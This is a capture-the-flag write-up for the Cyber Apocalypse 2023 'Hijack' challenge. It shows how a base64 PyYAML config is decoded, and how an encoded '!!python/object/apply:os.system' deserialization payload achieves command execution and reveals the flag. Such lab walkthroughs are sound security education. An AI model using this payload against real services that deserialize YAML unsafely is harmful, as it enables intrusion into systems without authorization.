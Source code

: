 # Cyber Apocalypse 2023

## Hijack

> The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?
>
>  Author: N/A
>

Tags: _misc_

## Solution
When connecting to the container we are presented with an small UI:
```bash
$ nc 138.68.162.218 32738

<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
>
```

First thing is to test what we can do. Create config let's us enter some values and returns the configuration.

```bash
> 1

- Creating new config -
Temperature units (F/C/K): F
Propulsion Components Target Temperature : 1
Solar Array Target Temperature : 1
1Infrared Spectrometers Target Temperature :
Auto Calibration (ON/OFF) : on

Serialized config: ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K
Uploading to ship...
```

When decoding the base64 string we get some PyYaml.
```bash
$ echo "ISFweXRob24vb2JqZWN0Ol9fbWFpbl9fLkNvbmZpZyB7SVJfc3BlY3Ryb21ldGVyX3RlbXA6ICcxJywgYXV0b19jYWxpYnJhdGlvbjogJ29uJywKICBwcm9wdWxzaW9uX3RlbXA6ICcxJywgc29sYXJfYXJyYXlfdGVtcDogJzEnLCB1bml0czogRn0K" | base64 -d
!!python/object:__main__.Config {IR_spectrometer_temp: '1', auto_calibration: 'on',
  propulsion_temp: '1', solar_array_temp: '1', units: F}
```

That looks interesting since we can probably pack our own payload into it.

```bash
echo -n '!!python/object/apply:os.system ["cat flag.txt"]' | base64
ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
```

And sure enough, when uploading the payload...
```bash
<------[TCS]------>
[1] Create config
[2] Load config
[3] Exit
> 2

Serialized config to load: ISFweXRob24vb2JqZWN0L2FwcGx5Om9zLnN5c3RlbSBbImNhdCBmbGFnLnR4dCJd
HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}
** Success **
Uploading to ship...
```

... we are presented with the flag `HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`.